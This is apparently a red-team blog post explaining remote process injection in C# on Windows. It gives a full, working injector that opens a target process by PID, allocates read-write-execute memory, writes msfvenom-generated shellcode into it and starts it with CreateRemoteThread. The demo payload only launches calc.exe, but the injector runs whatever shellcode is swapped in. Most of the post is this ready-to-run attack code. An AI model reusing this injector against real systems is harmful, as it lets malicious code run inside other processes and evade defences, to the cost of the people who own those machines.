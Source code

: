 ```yaml
---
title: "Shellcode Injection Techniques in C#"
author:
  name: crypt0ace
  link: https://twitter.com/crypt0acee
date: 2022-09-02
description: "Discussing shellcode injection techniques we can use while utilizing C#"
tags: [Red Team]
---
```

## Introduction
In the previous post we discussed how we can use WinAPI in C# and call funtions that we can use to build our red team tools. See the post [here](https://crypt0ace.github.io/posts/WinAPI-and-PInvoke-in-CSharp/) In this post we will look into how we can use C# to see other ways of shellcode injections. 

## Process Injection
From the previous shellcode runner, we saw how we can use the API calls in this order.
<br>
![Previous API Calls](/assets/img/shellcode-injections/previous-calls.png)
<br>
In case of process injection we use these calls.
<br>
![Process Injection API Calls](/assets/img/shellcode-injections/api-calls.png)
<br>
We are going to open a process, allocate some memory into it, then write to that memory with our shellcode and then excute it with `CreateRemoteThread`.
<br>
So instead of `VirtualAlloc` we are going to use `VirtualAllocEx` because it has the ability to allocate memory in other process's address space. Similarly we are using `WriteProcessMemory` instead of `Marshal.Copy` because now we are writing to a remote process and `CreateRemoteThread` to create a thread in that process.
<br>
We can first start to add our imports in. Using the same data conversion table,
```csharp
[DllImport("kernel32.dll")]
public static extern IntPtr OpenProcess(UInt32 dwDesiredAccess, bool bInheritHandle, UInt32 dwProcessId);

[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, int dwSize, UInt32 flAllocationType, UInt32 flProtect);

[DllImport("kernel32.dll")]
public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int nSize, ref int lpNumberOfBytesWritten);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref int lpThreadId);
```
After the imports we can put our enums in place. We need to put the `flAllocationType` as `MEM_COMMIT` and `MEM_RESERVE`. The `flProtect` will remain the same as RWX or `PAGE_EXECUTE_READWRITE` and we will have a `dwDesiredAccess` for `OpenProcess` call which would specify what are the access levels we want to open the process with. The values for it can be found on the Microsoft Docs [here](https://docs.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights). 
<br>
These enums become
```csharp
public enum State
{
  MEM_COMMIT = 0x00001000,
  MEM_RESERVE = 0x00002000
}

public enum Protection
{
  PAGE_EXECUTE_READWRITE = 0x40
}
public enum Process
{
  PROCESS_ALL_ACCESS = 0x000F0000 | 0x00100000 | 0xFFFF,
  PROCESS_CREATE_THREAD = 0x0002,
  PROCESS_QUERY_INFORMATION = 0x0400,
  PROCESS_VM_OPERATION = 0x0008,
  PROCESS_VM_READ = 0x0010,
  PROCESS_VM_WRITE = 0x0020
}
```
With these out of the way we can start with our Main method. First we are going to create our `dwDesiredAccess`. We can use `PROCESS_ALL_ACCESS` or we can use the other ones like
```csharp
var desiredAccess = Process.PROCESS_CREATE_THREAD | Process.PROCESS_QUERY_INFORMATION | Process.PROCESS_VM_OPERATION | Process.PROCESS_VM_READ | Process.PROCESS_VM_WRITE;
```
Next we can add in our shellcode. I'm using a `calc.exe` x64 shellcode I generated from `msfvenom`.
```csharp
// msfvenom -p windows/x64/exec CMD=calc.exe -f csharp
byte[] buf = new byte[276] {
0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
0x63,0x2e,0x65,0x78,0x65,0x00 };
```
We need to initialize some values like the shellcode size.
```csharp
int shellcode_size = buf.Length;
int bytesWritten = 0;
int lpthreadID = 0;
```
When all these values are set we can start with calling APIs. First one we will be using is `OpenProcess` to open the process. It takes three arguments. The desired access, inherit handle and the process ID. We already have the desired access variable set that we can use. We dont need a inherit handle because we dont want this process to be inherited by a child process and the process ID is something we can give on the command line.
```csharp
IntPtr procHandle = OpenProcess((uint)desiredAccess, false, Convert.ToUInt32(args[0]));
```
Now we can allocate some memory into the process. Like we did in the shellcode runner,
```csharp
IntPtr init = VirtualAllocEx(procHandle, IntPtr.Zero, shellcode_size, (uint)State.MEM_COMMIT | (uint)State.MEM_RESERVE, (uint)Protection.PAGE_EXECUTE_READWRITE);
```
Then we can write to that process's memory using `WriteProcessMemory`. The handle of the process is defined with the `OpenProcess` call. The base address will be the start of the memory we allocated using `VirtualAllocEx`. The buffer is the shellcode bytes, the size is the length of shellcode and the `bytesWritten` are already initialized. We can also see how many bytes get written.
```csharp
WriteProcessMemory(procHandle, init, buf, shellcode_size, ref bytesWritten);
Console.WriteLine("[*] Bytes Written: {0}", bytesWritten);
```
Lastly we will use `CreateRemoteThread` to create a thread for our shellcode annd execute it. We provide it with the process handle, the thread attributes are set to zero. According to Microsoft Docs, *It member of the structure specifies a security descriptor for the new thread. If lpThreadAttributes is NULL, the thread gets a default security descriptor.* The `dwStackSize` is zero which sets the default size. We dont have any parameters so that becomes zero as well and we are going to be printing the thread ID. 
```csharp
IntPtr threadPTR = CreateRemoteThread(procHandle, IntPtr.Zero, 0, init, IntPtr.Zero, 0, ref lpthreadID);
Console.WriteLine("[*] Thread ID: {0}", lpthreadID);
```
Putting it all together gives us this.
```csharp
[DllImport("kernel32.dll")]
public static extern IntPtr OpenProcess(UInt32 dwDesiredAccess, bool bInheritHandle, UInt32 dwProcessId);

[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, int dwSize, UInt32 flAllocationType, UInt32 flProtect);

[DllImport("kernel32.dll")]
public static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, int nSize, ref int lpNumberOfBytesWritten);

[DllImport("kernel32.dll")]
public static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, UInt32 dwStackSize, IntPtr lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref int lpThreadId);

public enum State
{
  MEM_COMMIT = 0x00001000,
  MEM_RESERVE = 0x00002000
}

public enum Protection
{
  PAGE_EXECUTE_READWRITE = 0x40
}
public enum Process
{
  PROCESS_ALL_ACCESS = 0x000F0000 | 0x00100000 | 0xFFFF,
  PROCESS_CREATE_THREAD = 0x0002,
  PROCESS_QUERY_INFORMATION = 0x0400,
  PROCESS_VM_OPERATION = 0x0008,
  PROCESS_VM_READ = 0x0010,
  PROCESS_VM_WRITE = 0x0020
}

static void Main(string[] args)
{
  var desiredAccess = Process.PROCESS_CREATE_THREAD | Process.PROCESS_QUERY_INFORMATION | Process.PROCESS_VM_OPERATION | Process.PROCESS_VM_READ | Process.PROCESS_VM_WRITE;
  byte[] buf = new byte[276] {
      0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,
      0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,
      0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,
      0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,
      0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,
      0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,
      0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,
      0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,
      0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,
      0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,
      0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,
      0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,
      0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,
      0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,
      0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,
      0x87,0xff,0xd5,0xbb,0xf0,0xb5,0xa2,0x56,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,
      0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,
      0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,
      0x63,0x2e,0x65,0x78,0x65,0x00 };
    int shellcode_size = buf.Length;
    int bytesWritten = 0;
    int lpthreadID = 0;
    IntPtr procHandle = OpenProcess((uint)desiredAccess, false, Convert.ToUInt32(args[0]));
    IntPtr init = VirtualAllocEx(procHandle, IntPtr.Zero, shellcode_size, (uint)State.MEM_COMMIT | (uint)State.MEM_RESERVE, (uint)Protection.PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(procHandle, init, buf, shellcode_size, ref bytesWritten);
    Console.WriteLine("[*] Bytes Written: {0}", bytesWritten);
    IntPtr threadPTR = CreateRemoteThread(procHandle, IntPtr.Zero, 0, init, IntPtr.Zero, 0, ref lpthreadID);
    Console.WriteLine("[*] Thread ID: {0}", lpthreadID);
}
```
We can take a process ID from Task Manager. And executing it gives us.
<br>
![Executing Process Injection](/assets/img/shellcode-injections/exec_proc_inject.png)
<br>
A cleaner and improvered version can be found [here](https://gist.github.com/crypt0ace/4d03eaaac958d73bb665f4ca7d068a68). The x86 shellcode part doesnt work btw (yet).